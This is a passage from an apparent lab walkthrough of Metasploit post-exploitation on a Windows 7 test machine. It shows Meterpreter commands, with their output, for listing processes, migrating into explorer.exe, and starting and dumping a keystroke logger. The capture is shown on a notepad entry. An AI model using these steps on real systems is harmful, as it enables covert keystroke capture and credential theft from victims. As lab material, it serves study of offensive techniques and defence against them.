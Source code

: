 ![crack-station-pass](https://seacloud.cc/d/480b5e8fcd/files/?p=/ms-java-rhino/crack-station-pass.png&raw=1)

### Setup Key Logging
In order to setup keylogging we need to migrate the metasploit process to a more stable process, for example **explorer.exe** :) First let's figure out the *PID* of **explorer**:

	meterpreter > ps -S explorer
	
	
	Process list
	============
	
	 PID   Name               Arch  Session  User                          Path
	 ---   ----               ----  -------  ----                          ----
	 1180  iexplore.exe       x86   2        WIN7\Administrator      C:\Program Files\Internet Explorer\iexplore.exe
	 1748  iexplore.exe       x86   2        WIN7\Administrator      C:\Program Files\Internet Explorer\iexplore.exe
	 3964  explorer.exe       x86   2        WIN7\Administrator      C:\Windows\Explorer.EXE
	
	
	meterpreter > 

Looks like in our case that's **3964**, so let's migrate to that:

	meterpreter > migrate 3964
	[*] Migrating from 2156 to 3964...
	[*] Migration completed successfully.
	meterpreter > 

Now let's start the key logger:

	meterpreter > keyscan_start 
	Starting the keystroke sniffer...
	meterpreter > 

Back on the windows 7 machine let's start up **notepad** and write something:

![win7-notepad-keylog](https://seacloud.cc/d/480b5e8fcd/files/?p=/ms-java-rhino/win7-notepad-keylog.png&raw=1)

After that go back to the metasploit console and dump the keylogger information:

	meterpreter > keyscan_dump 
	Dumping captured keystrokes...
	These are my rn <Back> andom notes
	meterpreter > 

I mistyped *random* and had to backspace :) That wasn't too bad.

### Stopping the Exploit
At this point we can just disconnect from the session and metasploit:

	meterpreter > exit
	[*] Shutting down Meterpreter...
	
	[*] 192.168.1.20 - Meterpreter session 1 closed.  Reason: User exit
	msf exploit(java_rhino) > exit
	
	[*] Server stopped.
	root@kali:~# 
